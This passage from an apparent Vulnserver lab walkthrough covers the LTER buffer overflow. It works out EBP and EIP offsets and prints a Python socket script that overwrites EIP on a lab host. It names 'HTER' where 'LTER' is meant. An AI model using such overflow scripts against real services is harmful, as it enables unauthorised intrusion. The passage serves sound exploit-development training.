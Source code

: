 We overwrote ```EBP``` and ```EIP``` with ```B's``` and ```C's```

<div align="center">
<img src="https://raw.githubusercontent.com/AidenPearce369/Vulnserver-Walkthrough/main/res/lter-offset-final.png">
</div>

Now, using the data from the registers we are going to locate the offset in the buffer space to reach the data

In our payload we used,

```HTER ./``` - 7 bytes

```"A"s``` - 2001 bytes

```"B"s``` and ```"C"s``` - 4 bytes

Offset of ```EBP``` = 7 + 2001 = 2008 bytes

Offset of ```EIP``` = 7 + 2001 + 4 = Offset of EBP + 4 = 2012 bytes

So we should use 7 bytes of ```LTER ./``` and 2005 bytes of ```A's``` to reach ```EIP```

## Overwriting Instruction Pointer

Now, we have found the offset of our EIP

It’s time to control the EIP, which is the important phase of every exploitation

Lets craft a script to overwrite the EIP with our own custom data, which will be further used to craft an exploit,

```c
┌──(kali㉿aidenpearce369)-[~/vulnserver/LTER]
└─$ cat overwrite-eip.py    
import socket, sys
payload=b""
# to overwrite buffer and EBP
payload+=b"A"*2005
# to overwrite EIP
payload+=b"D"*4
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.116.140", 9999))
s.send((b"LTER ./"+payload))
s.close()
sys.exit()
                                                                       
┌──(kali㉿aidenpearce369)-[~/vulnserver/LTER]
└─$ python3 overwrite-eip.py
```

We have successfully overwrote the ```EIP``` with our own data ```0x44444444```

<div align="center">
<img src="https://raw.githubusercontent.com/AidenPearce369/Vulnserver-Walkthrough/main/res/lter-overwrite-reg.png">
</div>
